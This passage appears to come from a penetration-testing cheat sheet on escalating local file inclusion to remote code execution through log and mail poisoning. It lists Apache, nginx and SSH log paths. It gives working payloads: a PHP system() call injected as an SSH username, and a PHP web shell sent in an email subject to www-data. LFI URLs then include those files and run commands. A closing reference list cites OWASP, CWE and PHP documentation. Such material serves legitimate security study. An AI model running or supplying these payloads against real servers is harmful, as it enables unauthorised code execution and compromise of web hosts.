 ```text
/var/log/httpd/access_log
/var/log/httpd/error_log

/var/log/apache/access.log
/var/log/apache/error.log

/var/log/apache2/access.log
/var/log/apache2/error.log

/usr/local/apache/log/access_log
/usr/local/apache/log/error_log

/usr/local/apache2/log/access_log
/usr/local/apache2/log/error_log

/var/log/nginx/access.log
/var/log/nginx/error.log
```

### SSH

SSH logs the username of each connection.
Create a connection to SSH
with the suitable username.

```sh
ssh '<?php system('id'); ?>'@{{< param "m.RDOMAIN" >}}
```

#### LFI

```txt
http://{{< param "m.RDOMAIN" >}}/index.php?page=/path/to/sshd.log&c=id
```

#### Common SSH Log Paths

```text
/var/log/auth.log
/var/log/sshd.log
```

### Email

Email an internal account,
containing the script.

```sh
mail -s "<?php system($_GET['c']);?>" www-data@{{< param "m.RHOST" >}} < /dev/null
```

#### LFI

```txt
http://{{< param "m.RDOMAIN" >}}/index.php?page=/var/mail/www-data&c=id
```


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.